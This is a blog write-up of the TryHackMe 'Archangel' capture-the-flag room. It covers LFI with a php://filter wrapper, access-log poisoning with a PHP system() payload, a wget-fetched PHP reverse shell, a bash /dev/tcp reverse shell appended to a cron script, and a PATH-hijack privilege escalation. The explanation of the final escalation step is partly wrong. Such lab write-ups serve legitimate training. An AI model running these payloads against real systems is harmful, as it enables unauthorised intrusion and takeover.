 ```yaml
---
title: "Archangel"
date: 2023-12-31
layout: "simple"
categories: [TryHackme]
tags: [Boot2root]
image: https://i.ibb.co/cgYN2Kr/th-3134630742.jpg
---
```

Hello guys and welcome to yet another writeup. This is ye another easy box on tryhackme and is accessible [here](https://tryhackme.com/room/archangel)
We shall tackle some awesome topics which include:
  1. LFI.
  2. Priviledge exploitation.
  3. Web exploitation.
With that said let us get right to it

## NMAP scan.
As usual we are gonna start of by scanning open ports on our machine.
![1](https://i.ibb.co/ZVjYSZ9/nmap.png)

We are able to see that port 80 is open and is hosting a web application.
we are able to view a home page which does not have alot on it but we can see a type of hostname

![2](https://i.ibb.co/YLJjDwK/wavefire.png)

We can actually use this and and it to our **/etc/hosts** file, then try and go to the page.
![3](https://i.ibb.co/TWTBYN0/mafia.png)

## LFI.
Okay guys it is about to get really messy in here. Stay frosty.

So first of all we are going to FUZZ for hidden directories.

![4](https://i.ibb.co/kQRKnYg/wfuzz.png)

And we get a hit for **robots.txt**. which when we visit the page looks something like this.

![5](https://i.ibb.co/vv2SyZj/robots.png).

And we can actually see another directory **/test.php**. visit this page and we can view another page with a button.

![6](https://i.ibb.co/cJPSy3b/control.png)

We can then see that the button redirects us to **?view=/var/www/html/development_testing/mrrobot.php**.

From here we can try to do a path traversal filter. After hours of trial and error I found this filter and it worked.
**php://filter/convert.base64-encode/resource=**
Okay so now we can see some base64 code 
let us try and change **mrrobot.php** to **test.php**. And we can see some more base64. let us decode that.

![7](https://i.ibb.co/pnGV1tK/testbase64.png)
![8](https://i.ibb.co/944fSfv/lfiflag.png)

And we can get a flag but also we can see some php filters on it.
## Acesslog
Okay so the filter dictates that using **../..** which we can easily bypasss by using **..//..**

Next let us try and view the access log using the bypass.

![9](https://i.ibb.co/f98gBfQ/accesslog.png)

So next we can try and pass some malicious code to the user agent. **<?php system($_GET['cmd']); ?>**.
So to do this follow this steps.

 1. right click and press Inspect on the dropdown menu.
 2. click on the Network option and reload the page
 3. Hit resend.
 4. scroll to the user agent and replace with the malicious code.
 5. Hit send.

Smooth so next up let us try and execute some commands on it.
let us try and add **&cmd=ls** to the end of the url.

![10](https://i.ibb.co/WWmnG2H/cmd-ls.png)

We can actually run commands on it. so next let us try and get a reverse shell.

## SHELL
So we are going to get a sample php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Next, we are going to set up a python server on our machine. 
Next, we are going to run **&cmd=wget http://ip/revshell.php**
We should be able to get a 200 code on our machine.
![11](https://i.ibb.co/4jKLJfz/httpserver.png)

next start up a listener on your machine
Then run **&cmd=php revshell.php**
going back to our listener we have a shell.

![12](https://i.ibb.co/gzQvS34/nc.png)


## Switch user.

So next we can get a better shell by using **python3 -c "import pty;pty.spawn('/bin/bash -i')"**

Then we can check out the cron jobs **cat /etc/crontab**

We can actually see that a job runs as archangel every minute. Which we can read and write.
So we then run **echo "bash -i >& /dev/tcp/ip/1235 0>&1" >> /opt/helloworld.sh**

![13](https://i.ibb.co/qFqjRB3/archangel.png)

Then run another listener and wait for a minute. Coffee break.

## ROOT

Moving into the secret directory we can see a file called backup. Running does not do much so we are going to do something crazy. 
So type:
 1. **echo '/bin/bash -p' > cp**
 2. **chmod 777 cp**
 3. **export PATH=/home/archangel/secret:$PATH**
 4. **echo $PATH**
 5. **./backup**

Okay let us dig into what jus happened. This is gonna be crazy but heck.

 1. **echo '/bin/bash -p' > cp**: This command redirects the output of the `echo` command, which is the string `'/bin/bash -p'`, into a file named `cp`. The content of the `cp` file will be `/bin/bash -p`.

 2. **chmod 777 cp**: This command changes the permissions of the `cp` file to allow all users to read, write, and execute it. The `chmod` command is used to modify file permissions, and `777` is a symbolic representation that grants all permissions to the owner, group, and others.

 3. **export PATH=/home/archangel/secret:$PATH**: This command adds a directory called `/home/archangel/secret` to the beginning of the `PATH` environment variable. The `PATH` variable contains a list of directories that the shell searches for executable files. By adding `/home/archangel/secret` at the beginning, any executable file in that directory will take precedence over files with the same name in other directories listed in `PATH`.

 4. **echo $PATH**: This command displays the value of the `PATH` environment variable. After the previous `export` command, it will show `/home/archangel/secret` followed by the original directories that were part of `PATH`.

 5. **./backup**: This command attempts to execute a file named `backup` in the current directory. The `./` prefix indicates that the file should be executed from the current directory instead of searching for it in the directories listed in `PATH`. If the `backup` file exists and has executable permissions, it will be run with the elevated privileges specified in step 1 (`/bin/bash -p`).

Overall, these commands create a file called `cp` with elevated permissions, modify the `PATH` environment variable to prioritize a specific directory, and execute a file named `backup` with elevated privileges. The exact consequences and implications of these actions depend on the specific context and contents of the `backup` file.

And yes we are root.
![14](https://i.ibb.co/tCf2k5W/root.png)

## RESOURCES
[BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
[PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Okay honestly that was a great learning experience for me and I hope it is the same for you. 
Happy hacking :)


